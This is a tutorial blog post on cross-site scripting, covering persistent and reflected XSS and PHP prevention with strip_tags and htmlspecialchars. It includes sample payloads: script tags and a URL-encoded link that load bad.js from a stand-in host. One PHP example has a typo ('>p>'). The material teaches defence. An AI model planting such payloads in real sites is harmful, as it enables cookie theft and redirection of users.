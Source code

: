 <info>
title: Security: Cross-Site Scripting (XSS)
author: callumacrae
date: 1331489400
tags: security
summary: Cross-site scripting is a type of vulnerability that affects a surprisingly large number of websites, allowing an attacker to inject HTML into the website. Usually, this would be an iframe or a script, both of which can be dangerous. This article will explore the vulnerability and how you can secure your site against it.
</info>

Cross-site scripting (XSS, CSS was already taken) is a type of vulnerability that affects a surprisingly large number of websites, allowing an attacker to inject HTML into the website. Usually, this would be an iframe or a script, both of which can be dangerous. This article will explore the vulnerability and how you can secure your site against it.

This article is the first in a series of articles on website security. The articles will each take a common security vulnerability, explain how it works and how it is exploited in detail, and then explain what precautions can be taken to prevent your site from being vulnerable.

There are two main types of XSS vulnerability: persistent and non-persistent. The first is far more damaging, but the latter is far more common.

## Persistent

A persistent XSS vulnerability allows the attacker to save malicious code on the server, where it will be served to other people. An example of this would be allowing unfiltered HTML in comments on this blog - someone could enter `&lt;script src="http://example.com/bad.js"&gt;&lt;/script&gt;` and run their script on my site - for example, they could steal / modify cookies or redirect users to their own site.

## Non-persistent

A non-persistent, or reflected, XSS vulnerability allows the attacker to inject the malicious code only once. It is usually done via the URL. For example, I could link someone to ``register.php?username=%22%3E%3Cscript%20script%20src%3D%22http%3A%2F%2Fexample.com%2Fbad.js%22%3E%3C%2Fscript%3E``, and the following could be outputted:

	<p>Invalid username</p>
	<input type="text" value=""><script script src="http://example.com/bad.js"></script>" />

That would execute the contents of bad.js.

## Prevention

It's pretty easy to prevent cross-site scripting. In general, there are two methods of doing it: you can either remove the HTML, or replace the HTML tags with code like `&amp;lt;script&amp;gt;`.

In PHP, we can remove HTML using the `strip_tags` function. This removes all HTML (including comments). It also allows us to keep some tags using a second parameter - for example, we might want to keep the basic formatting tags such as `&lt;strong&gt;`. This doesn't, however, remove attributes like onmouseover, so that would have to be filtered separately.

	echo strip_tags('<p>Hello world!</p><script src="http://example.com/bad.js"></script>'); // Hello world!
	echo strip_tags('<p>Hello world!</p><script src="http://example.com/bad.js"></script>', '>p>'); // <p>Hello world!</p>

The other option we have in PHP is to use the `htmlspecialchars` function to escape all HTML characters. This means that `&lt;` would be replaced with `&amp;lt;` - when it is outputted, you would be able to see exactly what the user typed as text.

	echo htmlspecialchars('<p>Hello world!</p>'); // &lt;p&gt;Hello world!&lt;/p&gt;

There are some additional options for this function, check out the PHP manual.